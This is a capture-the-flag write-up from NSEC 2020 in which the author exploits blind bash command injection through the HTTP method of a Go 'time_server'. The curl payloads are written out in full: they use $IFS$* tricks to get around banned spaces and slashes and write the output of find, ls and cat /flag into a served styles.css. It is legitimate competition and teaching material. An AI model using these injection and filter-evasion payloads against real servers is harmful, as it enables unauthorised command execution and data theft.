

Browsing to http://time-server.ctf:8080/debug/pprof shows an interesting page.



The "cmdline" link looks especially interesting. What does it hold?



Awesome! One issue solved.


Now for how to read a flag from a server using an HTTP verb (or something that the server things is an HTTP verb) and bash. We know our verb is being passed to bash, so ideally we just send `;cat flag` and get the flag. Remember however, that the echo is local to the server which makes our command injection blind. We'll have to figure out a way to get the output of the command, but first, what commands can we run? For this I just threw every character one at a time as the HTTP verb noting which characters caused the challenge to return a `400 Bad Request`. 

```bash
$ curl -v http://127.0.0.1:8080/?mlaasdkfasldkfm=testarg -X ':'
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> : /?mlaasdkfasldkfm=testarg HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 400 Bad Request
< Content-Type: text/plain; charset=utf-8
< Connection: close
< 
* Closing connection 0
400 Bad Request
```

After testing, I had the following list: `={}[]<>():;"\/ ` (a space is the last character in that list). That's pretty restrictive, as most everything we would want to do in bash would involve a slash and a space.

As a CTF participant and security researcher I've escaped my way out of a fair number of character restricted command injections, but this one really upped the difficulty. A common trick to get around space restriction is with input/output redirection (`<` and `>`) but those are restricted as well. `${IFS}` is another favorite, but curly braces are restricted. We better hope the flag is in the current directory as `/` is restricted.


Footage of [@becojo](https://twitter.com/becojo) and me working on the challenge. I'm in the green shirt.

We do have some key characters available, specifically `&`, `|`, and `` ` ``.

Let's take stock of our current status:
1. We have no way of seeing the output of the command as it is local to the server
2. We can pass arbitrary strings to `bash -c echo ` with lots of restrictions

We know we are working with a webserver, and it's a safe bet to guess it is serving static files from somewhere. This could be the same directory as the `time_server` binary, or perhaps `/var/www/html`. If you've cloned the repository where this writeup lives you have the answer already, but assume you don't know. We have the binary, let's work through how to figure it out. We notice that running `./time_server` locally fails to return any HTML and panics.

```bash
$ ./time_server 
2020/05/19 15:50:42 http: panic serving 127.0.0.1:59798: runtime error: index out of range [1] with length 1
goroutine 34 [running]:
net/http.(*conn).serve.func1(0xc00011e000)
        /usr/local/go/src/net/http/server.go:1767 +0x139
panic(0x806b60, 0xc0000fa060)
        /usr/local/go/src/runtime/panic.go:679 +0x1b2
main.e(0xc00013e000)
        /app/main.go:22 +0xb9
main.root.func1(0x8c89e0, 0xc0001060e0, 0xc00013e000)
        /app/main.go:29 +0x3d
net/http.HandlerFunc.ServeHTTP(0xc0000f60c0, 0x8c89e0, 0xc0001060e0, 0xc00013e000)
        /usr/local/go/src/net/http/server.go:2007 +0x44
net/http.(*ServeMux).ServeHTTP(0xb5e260, 0x8c89e0, 0xc0001060e0, 0xc00013e000)
        /usr/local/go/src/net/http/server.go:2387 +0x1bd
net/http.serverHandler.ServeHTTP(0xc000106000, 0x8c89e0, 0xc0001060e0, 0xc00013e000)
        /usr/local/go/src/net/http/server.go:2802 +0xa4
net/http.(*conn).serve(0xc00011e000, 0x8c9320, 0xc0000781c0)
        /usr/local/go/src/net/http/server.go:1890 +0x875
created by net/http.(*Server).Serve
        /usr/local/go/src/net/http/server.go:2928 +0x384
```

Let's look at `main.main` where the errors originate in GDB.

```
$ gdb ./time_server 
---8<---snip---8<----
gdb-peda$ l main.main
35      /app/main.go: No such file or directory.
gdb-peda$ disas main.main
Dump of assembler code for function main.main:
   0x00000000007633d0 <+0>:     mov    rcx,QWORD PTR fs:0xfffffffffffffff8
   0x00000000007633d9 <+9>:     cmp    rsp,QWORD PTR [rcx+0x10]
   0x00000000007633dd <+13>:    jbe    0x76359b <main.main+459>
   0x00000000007633e3 <+19>:    sub    rsp,0x60
   0x00000000007633e7 <+23>:    mov    QWORD PTR [rsp+0x58],rbp
   0x00000000007633ec <+28>:    lea    rbp,[rsp+0x58]
   0x00000000007633f1 <+33>:    lea    rax,[rip+0x6fe08]        # 0x7d3200
   0x00000000007633f8 <+40>:    mov    QWORD PTR [rsp],rax
   0x00000000007633fc <+44>:    call   0x40e370 <runtime.newobject>
   0x0000000000763401 <+49>:    mov    rax,QWORD PTR [rsp+0x8]
   0x0000000000763406 <+54>:    mov    QWORD PTR [rsp+0x40],rax
   0x000000000076340b <+59>:    lea    rcx,[rip+0x15f88e]        # 0x8c2ca0 <go.itab.net/http.Dir,net/http.FileSystem>
   0x0000000000763412 <+66>:    mov    QWORD PTR [rax],rcx
   0x0000000000763415 <+69>:    lea    rcx,[rip+0x156504]        # 0x8b9920
   0x000000000076341c <+76>:    mov    QWORD PTR [rax+0x8],rcx
---8<---snip---8<----
```

That `http.FileSystem` looks interesting. Set a breakpoint on it and continue.

```
gdb-peda$ b *0x000000000076340b
Breakpoint 1 at 0x76340b: file /usr/local/go/src/net/http/fs.go, line 716.
gdb-peda$ r testarg
Starting program: /mnt/hgfs/nsec/time/time_server testarg
---8<---snip---8<----
[----------------------------------registers-----------------------------------]
RAX: 0xc0000fa0f0 --> 0x0 
RBX: 0x0 
RCX: 0x7ffff7d8f6d0 --> 0x79055 
RDX: 0x79055 
RSI: 0x10 
RDI: 0x10 
RBP: 0xc000101f50 --> 0xc000101f58 --> 0x4321be (<runtime.main+542>:    mov    eax,DWORD PTR [rip+0x74895c]        # 0xb7ab20 <runtime.runningPanicDefers>)
RSP: 0xc000101ef8 --> 0x7d3200 --> 0x10 
RIP: 0x76340b (<main.main+59>:  lea    rcx,[rip+0x15f88e]        # 0x8c2ca0 <go.itab.net/http.Dir,net/http.FileSystem>)
R8 : 0x12 
R9 : 0x12 
R10: 0x8b5769 --> 0x908070605040302 
R11: 0x1 
R12: 0xffffffffffffffff 
R13: 0x10 
R14: 0xf 
R15: 0x200
EFLAGS: 0x216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7633fc <main.main+44>:     call   0x40e370 <runtime.newobject>
   0x763401 <main.main+49>:     mov    rax,QWORD PTR [rsp+0x8]
   0x763406 <main.main+54>:     mov    QWORD PTR [rsp+0x40],rax
=> 0x76340b <main.main+59>:     lea    rcx,[rip+0x15f88e]        # 0x8c2ca0 <go.itab.net/http.Dir,net/http.FileSystem>
   0x763412 <main.main+66>:     mov    QWORD PTR [rax],rcx
   0x763415 <main.main+69>:     lea    rcx,[rip+0x156504]        # 0x8b9920
   0x76341c <main.main+76>:     mov    QWORD PTR [rax+0x8],rcx
   0x763420 <main.main+80>:     nop
[------------------------------------stack-------------------------------------]
0000| 0xc000101ef8 --> 0x7d3200 --> 0x10 
0008| 0xc000101f00 --> 0xc0000fa0f0 --> 0x0 
0016| 0xc000101f08 --> 0xc000000180 --> 0xc000100000 --> 0xc000102000 --> 0x0 
0024| 0xc000101f10 --> 0xc000101f50 --> 0xc000101f58 --> 0x4321be (<runtime.main+542>:  mov    eax,DWORD PTR [rip+0x74895c]        # 0xb7ab20 <runtime.runningPanicDefers>)
0032| 0xc000101f18 --> 0x40714f (<runtime.closechan+479>:       jmp    0x40716e <runtime.closechan+510>)
0040| 0xc000101f20 --> 0xc000086058 --> 0x0 
0048| 0xc000101f28 --> 0x0 
0056| 0xc000101f30 --> 0x0 
[------------------------------------------------------------------------------]
```

Hmm nothing obvious yet. Step forward a few instructions.

```
gdb-peda$ ni # a few of these
[----------------------------------registers-----------------------------------]
RAX: 0xc0000fa0f0 --> 0x8c2ca0 --> 0x7cc380 --> 0x10 
RBX: 0x0 
RCX: 0x8b9920 --> 0x8383c4 ("static/stoppedsubdot;subset;subsim;subsub;subsup;succeq;supdot;supset;supsim;supsub;supsup;swarhk;swnwar;syscalltarget;tcaron;tcedil;telrec;there4;thetav;thinsp;thksim;timesb;timesd;topbot;topcir;tpri"...)
RDX: 0x79055 
RSI: 0x10 
RDI: 0x10 
RBP: 0xc000101f50 --> 0xc000101f58 --> 0x4321be (<runtime.main+542>:    mov    eax,DWORD PTR [rip+0x74895c]        # 0xb7ab20 <runtime.runningPanicDefers>)
RSP: 0xc000101ef8 --> 0x7d3200 --> 0x10 
RIP: 0x76341c (<main.main+76>:  mov    QWORD PTR [rax+0x8],rcx)
R8 : 0x12 
R9 : 0x12 
R10: 0x8b5769 --> 0x908070605040302 
R11: 0x1 
R12: 0xffffffffffffffff 
R13: 0x10 
R14: 0xf 
R15: 0x200
EFLAGS: 0x216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x76340b <main.main+59>:     lea    rcx,[rip+0x15f88e]        # 0x8c2ca0 <go.itab.net/http.Dir,net/http.FileSystem>
   0x763412 <main.main+66>:     mov    QWORD PTR [rax],rcx
   0x763415 <main.main+69>:     lea    rcx,[rip+0x156504]        # 0x8b9920
=> 0x76341c <main.main+76>:     mov    QWORD PTR [rax+0x8],rcx
   0x763420 <main.main+80>:     nop
   0x763421 <main.main+81>:     mov    rcx,QWORD PTR [rip+0x3ea038]        # 0xb4d460 <net/http.DefaultServeMux>
   0x763428 <main.main+88>:     mov    QWORD PTR [rsp],rcx
   0x76342c <main.main+92>:     lea    rcx,[rip+0xd6596]        # 0x8399c9
[------------------------------------stack-------------------------------------]
0000| 0xc000101ef8 --> 0x7d3200 --> 0x10 
0008| 0xc000101f00 --> 0xc0000fa0f0 --> 0x8c2ca0 --> 0x7cc380 --> 0x10 
0016| 0xc000101f08 --> 0xc000000180 --> 0xc000100000 --> 0xc000102000 --> 0x0 
0024| 0xc000101f10 --> 0xc000101f50 --> 0xc000101f58 --> 0x4321be (<runtime.main+542>:  mov    eax,DWORD PTR [rip+0x74895c]        # 0xb7ab20 <runtime.runningPanicDefers>)
0032| 0xc000101f18 --> 0x40714f (<runtime.closechan+479>:       jmp    0x40716e <runtime.closechan+510>)
0040| 0xc000101f20 --> 0xc000086058 --> 0x0 
0048| 0xc000101f28 --> 0x0 
0056| 0xc000101f30 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x000000000076341c      716     // "index.html".
```

Look at the string in `RCX`: `static/`. That's where the static files must be loaded from. We know that script.js and styles.css exist since they are loaded when we browse to `/` on the challenge server, so if we overwrite either of those and browse to them, we should get our command output!

At this point, my team and I tried many, many different Bash tricks to get command output locally. A breakthrough came when one teammate suggested using `$*` to separate `$IFS` from the next string. This allowed us to create spaces. I was excited. We had a clear path to the flag, and we just needed to locate and `cat` it. I ran the following expectantly:

```bash
$ curl time-server.ctf:8080/?mlaasdkfasldkfm=0739a949de455a1f745a8d3dcc4b179a -X '&&cd$IFS$*static&&find$IFS..|tee$IFS$*styles.css' >/dev/null`
$ curl time-server.ctf:8080/styles.css
..
../.bash_logout
../.bashrc
../.profile
../static
../static/script.js
../static/styles.css
../static/index.html
../static/time_server
../.viminfo
../main
../^time.json
../+time.json
../+outfile
../styles.css
../+outoutout
../index.html
../en_US.UTF-8
../test.html
../index.html.1
../time.json
```


Among the clutter of our output files, there was no flag. Fine, I'll just run `find` on the whole filesystem and grep the output. However, we can't use slashes, so `find /` is impossible. Here we could have `cd ..` a few times to get to `/` and then run `find .` but I was focused on using a slash. After a bunch more failed attempts I had this

```bash
$ # The command is: echo && cd static && ls -dF | tr -d . | tee styles.css
$ curl time-server.ctf:8080/?mlaasdkfasldkfm=0739a949de455a1f745a8d3dcc4b179a -X '&&cd$IFS$*static&&ls$IFS-dF|tr$IFS-d$IFS$*.|tee$IFS$*styles.css' >/dev/null
$ curl time-server.ctf:8080/styles.css
/
```

Great, now I can save a `/` character to a file and then `cat` that file to use `/` in the command. 

```bash
$ curl time-server.ctf:8080/?mlaasdkfasldkfm=0739a949de455a1f745a8d3dcc4b179a -X '&&cd$IFS$*static&&ls$IFS-dF|tr$IFS-d$IFS$*.|tee$IFS$*slash' >/dev/null
$ # The command is: echo && cd static && find / | tee style.css
$ curl time-server.ctf:8080/?mlaasdkfasldkfm=0739a949de455a1f745a8d3dcc4b179a -X '&&cd$IFS$*static&&find$IFS$*`cat$IFS$*slash`|tee$IFS$*styles.css' >/dev/null
$ # A suspiciously long time later, the curl returns
$ wget time-server.ctf:8080/styles.css
```

styles.css was 64MB of find output. Undeterred, I was so close to the flag the size didn't slow me down. 

```bash
kali@pwn-machine:/mnt/hgfs/nsec/time$ grep -i flag styles.css 
/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu0/domain1/flags
/proc/sys/kernel/sched_domain/cpu0/domain2/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain1/flags
/proc/sys/kernel/sched_domain/cpu1/domain2/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain1/flags
/proc/sys/kernel/sched_domain/cpu2/domain2/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain1/flags
/proc/sys/kernel/sched_domain/cpu3/domain2/flags
/proc/sys/kernel/sched_domain/cpu4/domain0/flags
/proc/sys/kernel/sched_domain/cpu4/domain1/flags
/proc/sys/kernel/sched_domain/cpu4/domain2/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain1/flags
/proc/sys/kernel/sched_domain/cpu5/domain2/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain1/flags
/proc/sys/kernel/sched_domain/cpu6/domain2/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain1/flags
/proc/sys/kernel/sched_domain/cpu7/domain2/flags
/proc/kpageflags
```


No flag. Impossible. There had to be a flag. I asked the organizers to check our VM. The flag was there they said. Frantic, I used my newfound slash abilities to `ls /`. In retrospect, the find likely timeout and was killed by `time_server` before it could list `/flag`. 

```bash
$ # The command is: echo && cd static && ls / | tee styles.css
$ curl -v time-server.ctf:8080/?mlaasdkfasldkfm=0739a949de455a1f745a8d3dcc4b179a -X '&&cd$IFS$*static&&ls$IFS$*`cat$IFS$*slash`|tee$IFS$*styles.css' >/dev/null
$ curl time-server.ctf:8080/styles.css
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ # The command is: echo && cd static && cat /flag | tee styles.css
$ curl -v time-server.ctf:8080/?mlaasdkfasldkfm=0739a949de455a1f745a8d3dcc4b179a -X '&&cd$IFS$*static&&cat$IFS$*`cat$IFS$*slash`flag|tee$IFS$*styles.css' 
$ curl time-server.ctf:8080/styles.css
FLAG-ac0c58453b7208f9ee9d204b54988b98
```


I am positive there were simpler ways to solve this challenge, but no one can take away the feeling of finally getting a challenge after struggling for hours. 

NSEC 2020 was a ton of fun, and we'll be back next year.
